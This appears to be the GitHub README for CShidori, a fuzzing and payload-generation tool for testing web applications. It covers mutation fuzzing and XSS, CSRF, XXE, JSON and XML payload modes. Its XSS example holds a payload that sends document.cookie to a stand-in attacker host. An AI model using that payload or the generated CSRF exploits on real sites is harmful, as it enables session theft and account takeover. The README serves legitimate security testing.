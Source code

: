 # CShidori

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (french)](https://github.com/Aif4thah/SIMPLE)


## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning (Beta)

* CShidori learns and tries to detect vulnerabilities from your fuzzing history

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

put your request in a text file (for HTTPS use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

### TCP Sockets

put your request in a text file (for HTTP use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```
### go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
